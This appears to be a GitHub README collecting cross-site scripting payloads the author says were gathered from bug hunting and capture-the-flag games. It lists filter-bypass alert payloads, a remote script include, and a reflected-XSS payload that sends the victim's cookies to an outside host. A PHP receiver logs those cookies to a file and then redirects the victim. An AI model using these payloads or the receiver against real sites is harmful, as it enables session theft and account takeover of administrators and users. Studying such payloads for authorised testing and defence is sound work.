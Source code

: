 # description
I found some useful payloads while bug hunting or playing some ctfs
so here it is !

## Payloads

for no closing script tags
><img src=no onerror=alert(1) foo=
><SCRIPT SRC=http://xss.rocks/xss.js?< B >

bypass basic filters to execute an alert box
>';">'>alert(String.fromCharCode(88,83,83))

without quotes and semicolons
><IMG SRC=javascript:alert('XSS')>

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

without any space

>"><img/src="x"/onerror=alert(99)>

steal admins cookie via reflect xss

><img src=x onerror=document.location='http://https://callmerat.000webhostapp.com/c.php?c='+document.cookie;'>
  
php file reciver
>
<?php


header('location:https://google.com');
$cookies=$_GET["c"];
$file=fopen('log.txt', 'a');
fwrite($file, $cookies . "\n\n");
?>

 "&gt;&lt;img src=x onerror=alert(document.domain)&gt; 
